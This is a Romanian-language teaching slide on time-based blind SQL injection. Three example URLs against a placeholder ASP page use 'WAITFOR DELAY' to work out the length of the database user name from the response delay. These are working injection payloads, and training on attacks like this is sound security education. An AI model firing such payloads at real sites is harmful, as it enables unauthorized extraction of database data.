

SQLI orb
Cum se obţine dimensiunea numelui utilizatorului BD (3)

http://[site]/page.asp?id=1; IF (LEN(USER)=1) WAITFOR DELAY '00:00:10'--
Este returnată imediat o pagină validă

http://[site]/page.asp?id=1; IF (LEN(USER)=2) WAITFOR DELAY '00:00:10'--
Este returnată imediat o pagină validă

http://[site]/page.asp?id=1; IF (LEN(USER)=3) WAITFOR DELAY '00:00:10'--
O pagină validă este returnată cu o întârziere de 10 secunde!